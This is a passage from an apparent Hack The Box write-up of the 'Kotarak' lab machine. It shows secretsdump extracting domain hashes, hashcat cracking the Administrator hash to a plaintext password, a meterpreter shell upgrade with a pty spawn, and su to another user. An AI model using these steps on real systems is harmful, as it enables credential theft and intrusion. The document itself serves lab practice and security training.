 root@kali:~/hackthebox/Machines/Kotarak/writeup/impacket/examples# python secretsdump.py -ntds ../../kotarak.dit -system ../../kotarak.bin LOCAL
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from ../../kotarak.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
..
..
..
```

Lets hascat that
```
.\hashcat64.exe -m 1000 .\hash.txt --username .\rockyou.txt
e64fe0f24ba2489c05e64354d74ebd11:f16tomcat!
```

Seems legit F16 

Lets get a shell on meterpreter and try to su as the user

We check `/etc/passwd` and we find that the username is atanas

```
meterpreter > shell

python -c 'import pty; pty.spawn("/bin/sh")'
$ su atanas
su atanas
Password: f16tomcat!

atanas@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ whoami
whoami
atanas

```

***user.txt***
```
atanas@kotarak-dmz:~$ cat user.txt
cat user.txt
93f844f50491ef797c9c1b601b4bece8
```

The root folder has 2 files and they are actually readable, checking them out

```
atanas@kotarak-dmz:/root$ls -l
ls -l
total 8
-rw------- 1 atanas root 333 Jul 20 22:53 app.log
-rw------- 1 atanas root  66 Aug 29 11:36 flag.txt
atanas@kotarak-dmz:/root$ cat flag.txt
cat flag.txt
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ cat app.log
cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"